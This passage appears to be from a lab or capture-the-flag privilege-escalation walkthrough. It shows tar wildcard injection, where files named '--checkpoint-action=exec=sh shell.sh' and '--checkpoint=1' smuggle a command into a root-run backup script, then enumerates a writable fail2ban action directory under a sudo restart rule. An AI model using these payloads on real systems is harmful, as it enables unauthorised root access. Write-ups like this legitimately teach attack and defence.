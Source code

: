 This is the expected contents in "backup.sh".  
You should see that it creates an archived file from anywhere - **wildcard(*)**.

```sh
# -cf: create an archived file
tar cf backup.tar *
```

Now create the payload for privilege escalation.

```sh
cd /opt/backups
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Confirm that it changes the current user to root.

```sh
whoami
```

<br />

## fail2ban

Check the properties.

```sh
sudo -l
(root) NOPASSWD: /etc/init.d/fail2ban restart
```

Confirm that the config file is writable.

```sh
find /etc -writable -ls 2>/dev/null
# output
4 drwxrwx--- 2 root security  4096 Oct 16 08:57 /etc/fail2ban/action.d
```

Look inside of **"/etc/fail2ban/jail.conf"** to know more about how fail2ban is configured.

```sh

less /etc/fail2ban/jail.conf

# ---------------------------------------------

# output

...
# "bantime" is the number of seconds that a host is banned.
bantime  = 10s

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10s

# "maxretry" is the number of failures before a host get banned.
maxretry = 5
...

```
